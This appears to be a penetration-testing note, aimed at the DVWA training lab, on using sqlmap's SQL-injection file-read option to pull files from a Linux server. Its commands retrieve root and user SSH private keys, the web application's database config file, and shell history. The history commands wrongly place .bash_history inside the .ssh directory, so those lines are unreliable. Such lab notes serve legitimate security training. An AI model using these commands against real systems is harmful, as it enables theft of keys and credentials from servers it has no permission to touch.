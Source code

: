 # Linux

## Automated

- Retrieve SSH keys

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/home/<username>/.ssh/id_rsa"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/root/.ssh/id_rsa"
```

- Retrieve database config file. You have to lookup of what web technology it's using such as, a **content management system (CMS)** like wordpress. Find the absolute path of the [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Linux/Credentials#^bc9e6e|database config file]] after enumeration phase for the web root directory.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/var/www/html/dvwa/config.php"
```

- Retrieve history commands. You can find more in the [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Linux/Credentials|privilege escalation credentials]] section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/home/<username>/.ssh/.bash_history"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/root/.ssh/.bash_history"
```